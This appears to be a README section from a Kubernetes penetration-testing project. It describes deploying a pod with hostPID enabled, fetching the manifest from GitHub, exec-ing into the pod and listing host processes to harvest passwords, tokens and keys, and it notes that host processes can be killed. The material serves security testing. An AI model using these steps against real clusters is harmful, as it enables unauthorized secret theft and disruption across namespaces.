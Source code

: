 ## hostPIDonly pod - You can create a pod with only hostPID

If you only have `hostPID=true`, you most likely won't get RCE on the host, but you might find sensitive application secrets that belong to pods in other namespaces. This can be use to gain unauthorized access to applications and services in other namespaces or outside the cluster, and can potentially be used to further comprise the cluster. 

[pod-hostpid-only.yaml](pod-hostpid-only.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostpid-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-hostpid-only.yaml [-n namespace] 
```

### Exec into pod 
```bash 
kubectl -n [namespace] exec -it pod-hostpid-only -- bash
```
### Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc.
ps -aux
# You can also kill any process, but don't do that in production :)
```